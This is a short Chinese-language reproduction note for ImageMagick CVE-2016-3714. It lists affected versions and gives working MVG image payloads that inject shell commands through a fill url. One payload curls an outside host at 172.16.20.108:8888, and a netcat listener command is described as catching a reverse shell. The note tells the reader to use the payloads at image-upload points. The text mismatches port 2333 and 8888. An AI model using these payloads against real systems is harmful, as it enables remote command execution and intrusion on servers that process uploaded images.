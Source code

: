 ```yaml
---
title: （CVE-2016-3714）ImageMagick 命令执行漏洞
id: zhfly2968
---
```


# （CVE-2016-3714）ImageMagick 命令执行漏洞

## 一、漏洞简介

/etc/ImageMagick/delegates.xml 将%s，%l加入到command里造成了命令执行

## 二、漏洞影响

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至6.9.3-9 released 2016-04-30

## 三、复现过程

### poc

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| command")'
pop graphic-context 
```

图片上传点，抓包，附上exp代码：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| curl 172.16.20.108:8888")'
pop graphic-context 
```

> ip：你要反弹的shell地址，2333端口号，服务器监听反弹shell。

```
nc -lvp ``8888 
```

![image](../img/53c9f04a92f0d08fff065317db5fbac2.png)